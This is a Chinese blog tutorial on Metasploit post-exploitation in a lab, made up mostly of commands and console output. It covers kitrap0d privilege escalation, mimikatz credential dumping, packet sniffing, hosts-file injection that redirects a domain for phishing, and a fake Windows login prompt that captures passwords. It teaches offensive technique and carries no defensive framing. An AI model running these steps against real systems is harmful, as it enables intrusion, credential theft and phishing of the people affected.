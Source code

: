 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit高级扩展功能
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit高级扩展功能
lock: need
---
```


# Metasploit高级扩展功能

### 用Metasploit提升权限 

有时，在使用getsystem提权的时候会失败，此时，我们可以使用后渗透模块将控制权限级别提高至最高级别。这里，我们以Windows Server 2008 SP1操作系统为例，其中，使用本地渗透模块绕过了限制并获得了目标的完全管理权限。

```
meterpreter > back
msf5 > use exploit/windows/local/ms10_015_kitrap0d 
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit
```

这里，我们使用 exploit/windows/local/ms10_015_kitrap0d 模块提升了控制权限，并获得了最高级别的管理权限。

### 使用mimikatz查找明文密码

mimikatz可以直接从lsass服务获取Windows中状态为活跃的账号的明文密码。

可以在Metasploit中使用load mimikatz命令载入mimikatz模块，之后就可以使用mimikatz模块中的kerberos命令来查找密码。

```
meterpreter > load mimikatz 
Loading extension mimikatz...Success.
meterpreter > kerberos 
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;62769  NTLM       LIUYAZHUANG   lyz              
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;52356  NTLM                                      
0;999    NTLM       WORKGROUP     LIUYAZHUANG$     

meterpreter > 
```

这里，我删除了密码。

### 使用Metasploit进行流量嗅探

#### 使用sniffer模块

```
meterpreter > use sniffer 
Loading extension sniffer...Success.
```

#### 列出目标主机上的所有网络接口

```
meterpreter > sniffer_interfaces 

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )

meterpreter > 
```

#### 启动网络嗅探

```
meterpreter > sniffer_start
[-] Usage: sniffer_start [interface-id] [packet-buffer (1-200000)] [bpf filter (posix meterpreter only)]
meterpreter > 
meterpreter > sniffer_start 1 1000
[*] Capture started on interface 1 (1000 packet buffer)
```

输入sniffer_start 1 1000命令启动网络接口上的嗅探功能，其中1表示网卡ID,1000是缓冲区的大小。

#### 下载pcap数据包

```
meterpreter > sniffer_dump 
[-] Usage: sniffer_dump [interface-id] [pcap-file]
meterpreter > sniffer_dump 1 1.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 1000 packets (993284 bytes)
[*] Downloaded 052% (524288/993284)...
[*] Downloaded 100% (993284/993284)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to 1.pcap
meterpreter >
```

此时，会把1.pcap下载到/root目录下(前提是用root账户登录的Kali)

#### 使用wireshark查看数据包

```
root@binghe:~# wireshark 1.pcap 
```

![img](https://img-blog.csdnimg.cn/20190127203707765.png)

#### 停止网络嗅探

```
meterpreter > sniffer_stop
[-] Usage: sniffer_stop [interface-id]
meterpreter > 
meterpreter > sniffer_stop 1
[*] Capture stopped on interface 1
[*] There are 74 packets (14485 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
meterpreter > 
```

### 使用Metasploit对host文件进行注入

可以通过对目标主机的host文件进行注入展开钓鱼攻击——将制定域名的条目添加到目标主机的host文件中。

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 exploit(windows/http/rejetto_hfs_exec) > use post/windows/manage/inject_host 
msf5 post(windows/manage/inject_host) > show options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on.

msf5 post(windows/manage/inject_host) > set IP 192.168.175.128
IP => 192.168.175.128
msf5 post(windows/manage/inject_host) > set DOMAIN www.google.com
DOMAIN => www.google.com
msf5 post(windows/manage/inject_host) > set SESSION 2
SESSION => 2
msf5 post(windows/manage/inject_host) > exploit

[*] Inserting hosts file entry pointing www.google.com to 192.168.175.128..
[+] Done!
[*] Post module execution completed
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
```

此时，在目标机的C:/Windows/System32/drivers/etc/hosts文件中多了一行

```
192.168.175.128 www.google.com
```

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127203850282.png)

此时，在目标机上访问http://www.google.com/，结果如下图：

![img](https://img-blog.csdnimg.cn/20190127203929154.png)

访问的是我们在Kali上配置的页面。

### 登录密码的钓鱼窗口

```
meterpreter > run post/windows/gather/phish_windows_credentials 
```

此时，会在目标主机上弹出外观和Windows系统认证弹窗一样的窗口，这个窗口要求受害者必须输入正确的用户名和密码后才能继续正常工作。

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204015499.png)

当用户输入了正确的用户名和密码之后，就会在我们的命令行中显示出来，如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204106537.png)



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)